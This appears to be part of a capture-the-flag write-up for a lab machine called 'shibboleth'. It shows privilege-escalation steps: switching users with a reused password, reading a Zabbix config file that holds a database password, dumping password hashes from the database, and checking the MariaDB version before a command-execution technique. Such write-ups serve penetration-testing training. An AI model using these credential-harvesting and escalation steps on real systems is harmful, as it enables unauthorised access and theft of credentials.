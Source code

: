 
# Privesc

Get reverse shell as user "zabbix" and zabbix dashboard password reused for system user "ipmi-svc"
```bash
(remote) zabbix@shibboleth:/tmp$ id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
(remote) zabbix@shibboleth:/tmp$ su ipmi-svc
Password: 
ipmi-svc@shibboleth:/tmp$
```

There is a mysql server in the localhost
```bash
ipmi-svc@shibboleth:~$ ss -lntp | grep 127
LISTEN  0        869            127.0.0.1:3306           0.0.0.0:*
```

linpeas show zabbix config file is reabable by "ipmi-svc"
```bash
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root ipmi-svc 22306 Oct 18 09:24 /etc/zabbix/zabbix_server.conf.dpkg-dist
-rw-r----- 1 root ipmi-svc 21863 Apr 24  2021 /etc/zabbix/zabbix_server.conf
```

Read through the config file found database password
```bash
ipmi-svc@shibboleth:~$ cat /etc/zabbix/zabbix_server.conf | grep -v '#' | grep -E 'DB*'

DBName=zabbix
DBUser=zabbix
DBPassword=bloooarskybluh
```

## mysql 'wsrep_provider' OS Command Execution

Got some password hashes from "zabbix" database
```bash
MariaDB [zabbix]> select alias,passwd from users;
+---------------+--------------------------------------------------------------+
| alias         | passwd                                                       |
+---------------+--------------------------------------------------------------+
| Admin         | $2y$10$L9tjKByfruByB.BaTQJz/epcbDQta4uRM/KySxSZTwZkMGuKTPPT2 |
| guest         | $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06 |
| Administrator | $2y$10$FhkN5OCLQjs3d6C.KtQgdeCc485jKBWPW4igFVEgtIP3jneaN7GQe |
+---------------+--------------------------------------------------------------+
```

"Administrator" user password we already have and other 2 hashes are not crackable.

Viewing the database version 
```bash
MariaDB [(none)]> SELECT VERSION();
+----------------------------------+
| VERSION()                        |
+----------------------------------+
| 10.3.25-MariaDB-0ubuntu0.20.04.1 |
+----------------------------------+
1 row in set (0.000 sec)
```
